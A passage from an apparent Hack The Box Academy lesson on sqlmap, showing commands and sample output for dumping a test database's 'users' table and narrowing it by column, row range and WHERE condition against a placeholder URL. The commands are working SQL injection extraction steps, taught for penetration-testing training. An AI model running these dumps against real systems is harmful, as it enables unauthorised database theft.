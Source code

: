[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
</code></pre>
<p>The console output shows that the table is dumped in formatted CSV format to a local file, <code>users.csv</code>.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0">Tip: Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.</p>
</div>
</div>
<p><img alt="Database table showing columns for data type, table name, column name, and privileges with sample entries." src="https://academy.hackthebox.com/storage/modules/58/pVBXxRz.png"/></p>
<hr/>
<h2>Table/Row Enumeration</h2>
<p>When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only <code>name</code> and <code>surname</code> columns) with the <code>-C</code> option, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
</code></pre>
<p>To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the <code>--start</code> and <code>--stop</code> options (e.g., start from 2nd up to 3rd entry), as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
</code></pre>
<hr/>
<h2>Conditional Enumeration</h2>
<p>If there is a requirement to retrieve certain rows based on a known <code>WHERE</code> condition (e.g. <code>name LIKE 'f%'</code>), we can use the option <code>--where</code>, as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
